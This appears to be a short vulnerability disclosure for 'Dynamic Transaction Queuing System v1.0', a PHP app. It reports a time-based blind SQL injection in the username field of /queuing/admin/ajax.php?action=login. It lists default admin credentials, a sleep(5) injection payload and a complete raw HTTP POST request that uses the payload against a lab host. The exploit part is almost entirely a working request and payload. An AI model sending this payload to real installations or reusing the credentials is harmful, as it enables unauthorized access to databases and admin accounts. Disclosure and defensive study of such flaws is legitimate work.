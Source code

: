# Dynamic Transaction Queuing System v1.0 by oretnom23 has SQL injection

BUG_Author: ctg503 team 

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /queuing/admin/ajax.php?action=login

Vulnerability location: /queuing/admin/ajax.php?action=login, name

dbname =queuing_db

[+] Payload: username=admin' and sleep(5)--+&password=admin // Leak place ---> name

```sql
POST /queuing/admin/ajax.php?action=login HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

username=admin' and sleep(5)--+&password=admin
```

![image](https://user-images.githubusercontent.com/54017627/200101180-647f48a9-e83f-4678-ac69-849fb4dd66fa.png)
